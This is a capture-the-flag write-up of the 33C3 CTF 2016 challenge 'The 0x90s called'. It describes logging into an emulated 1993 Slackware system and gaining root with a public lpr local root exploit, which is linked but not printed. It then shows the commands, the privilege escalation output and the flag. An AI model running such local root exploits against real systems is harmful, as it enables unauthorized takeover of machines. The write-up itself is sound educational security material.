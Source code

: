```yaml
---
title: '33C3 CTF 2016 -- The 0x90s called'
date: 2016-12-29 21:40
tags:
  - CTF
  - 33C3
  - Pwnable
  - local_root
categories:
  - write-ups
author: bruce30262
---
```

**Category:** pwn
**Points:** 150

<!-- more -->  

First we'll have to go to a web page to start our challenge session. The page will show us the port (same IP address with the web page) and the ID/password.

Once we connected to the remote host and login the machine, we'll found that we're inside a [Slackware Linux](http://www.slackware.com/):
```
$ nc 78.46.224.70 2323

Welcome to Linux 0.99pl12.

slack login: challenge
Password:challenge

Linux 0.99pl12. (Posix).
No mail.
slack:~$ uname -a
Linux slack 0.99.12 #6 Sun Aug 8 16:02:35 CDT 1993 i586
```

Later we'll found that there's a `flag.txt` inside the root directory:
```
slack:/$ ls -al /flag.txt
-r--------   1 root     root           36 Dec 27  1916 /flag.txt
```

Looks like we'll need a local root exploit to capture the flag. 

By googling **"slackware linux 0.99 local root exploit"**, we found a working [PoC](https://github.com/HackerFantastic/Public/blob/master/exploits/prdelka-vs-GNU-lpr.c). Now all we need to do is copy the PoC to the remote host, then compile & execute the exploit so we can escalate to root.

Although it looks simple, it still took me a while to complete the challenge, since there's no tool that can help us download the PoC to the host -- **no `wget`, no `curl`, not even `nc`!!** And the `vi` editor is just terrible!! Finally I decided to use `cat <<'EOF' >> test.c` + copy & paste to write the exploit into `test.c`.

After we compile & execute the local root exploit, we're able to escalate to root and get the flag:
```
slack:~$ gcc -o test test.c
slack:~$ ./test
[ Slackware linux 1.01 /usr/bin/lpr local root exploit
# id
id
uid=405(challenge) gid=1(other) euid=0(root) egid=18(lp)
# cat /flag.txt
cat /flag.txt
33C3_Th3_0x90s_w3r3_pre3tty_4w3s0m3
```

flag: `33C3_Th3_0x90s_w3r3_pre3tty_4w3s0m3`
